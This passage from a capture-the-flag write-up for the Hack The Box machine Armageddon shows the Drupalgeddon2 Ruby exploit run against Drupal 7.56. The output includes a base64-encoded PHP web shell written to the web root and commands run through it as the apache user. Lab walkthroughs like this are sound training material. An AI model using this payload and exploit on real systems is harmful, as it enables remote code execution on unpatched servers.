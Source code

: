 And we will use exploit *Drupalggedon2* on ruby language.

# Explotation

Let's run drupalgeddon2.rb and we get success.

```
┌──(root💀kali)-[/home/kali/HTB/armageddon]
└─# ruby drupalgeddon2.rb -h               
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://-h/
--------------------------------------------------------------------------------
[-] Network connectivity issue
                                                                                                                      
┌──(root💀kali)-[/home/kali/HTB/armageddon]
└─# ruby drupalgeddon2.rb http://armageddon.htb/
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://armageddon.htb/
--------------------------------------------------------------------------------
[+] Found  : http://armageddon.htb/CHANGELOG.txt    (HTTP Response: 200)
[+] Drupal!: v7.56
--------------------------------------------------------------------------------
[*] Testing: Form   (user/password)
[+] Result : Form valid
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Clean URLs
[!] Result : Clean URLs disabled (HTTP Response: 404)
[i] Isn't an issue for Drupal v7.x
--------------------------------------------------------------------------------
[*] Testing: Code Execution   (Method: name)
[i] Payload: echo PCNQFWOO
[+] Result : PCNQFWOO
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Existing file   (http://armageddon.htb/shell.php)
[i] Response: HTTP 404 // Size: 5
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[i] Fake PHP shell:   curl 'http://armageddon.htb/shell.php' -d 'c=hostname'
armageddon.htb>> id
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
armageddon.htb>> hostname
armageddon.htb
armageddon.htb>> pwd
/var/www/html
```
